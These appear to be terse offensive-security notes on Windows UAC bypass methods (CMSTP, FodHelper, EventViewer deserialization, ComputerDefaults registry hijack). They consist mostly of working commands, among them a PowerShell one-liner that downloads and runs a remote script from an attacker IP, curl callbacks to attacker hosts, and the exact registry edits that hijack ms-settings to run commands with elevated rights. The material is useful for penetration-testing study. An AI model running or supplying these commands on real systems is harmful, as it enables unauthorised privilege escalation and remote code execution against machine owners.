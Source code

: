 ## CMSTP

- Invoke: `iex(iwr http://192.168.45.195/cmstp.ps1 -useb)`
- Execute: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

## FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

## EventViewer
- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.

```powershell
    PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1
    
    PS C:\Windows\Tasks> Invoke-EventViewer 
    [-] Usage: Invoke-EventViewer commandhere
    Example: Invoke-EventViewer cmd.exe
    
    PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
    [+] Running
    [1] Crafting Payload
    [2] Writing Payload
    [+] EventViewer Folder exists
    [3] Finally, invoking eventvwr
```

## Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
